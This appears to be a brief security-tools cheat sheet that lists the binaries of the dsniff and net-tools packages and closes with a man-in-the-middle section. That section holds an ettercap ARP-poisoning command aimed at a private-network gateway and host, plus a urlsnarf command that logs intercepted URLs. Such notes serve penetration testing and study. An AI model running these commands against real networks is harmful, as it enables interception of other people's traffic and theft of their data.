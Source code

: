 burp-proxy


## Packages

dsniff

```bash
/usr/sbin/arpspoof
/usr/sbin/dnsspoof
/usr/sbin/dsniff
/usr/sbin/filesnarf
/usr/sbin/macof
/usr/sbin/mailsnarf
/usr/sbin/msgsnarf
/usr/sbin/sshmitm
/usr/sbin/sshow
/usr/sbin/tcpkill
/usr/sbin/tcpnice
/usr/sbin/urlsnarf
/usr/sbin/webmitm
/usr/sbin/webspy
```

net-tools

```bash
/bin/netstat
/sbin/ifconfig
/sbin/ipmaddr
/sbin/iptunnel
/sbin/mii-tool
/sbin/nameif
/sbin/plipconfig
/sbin/rarp
/sbin/route
/sbin/slattach
/usr/sbin/arp
```

## Man in the middle

```bash
ettercap -M arp -p -T -q -i wlp58s0 /192.168.1.1// /192.168.1.9//

urlsnarf -i wlp58s0 
```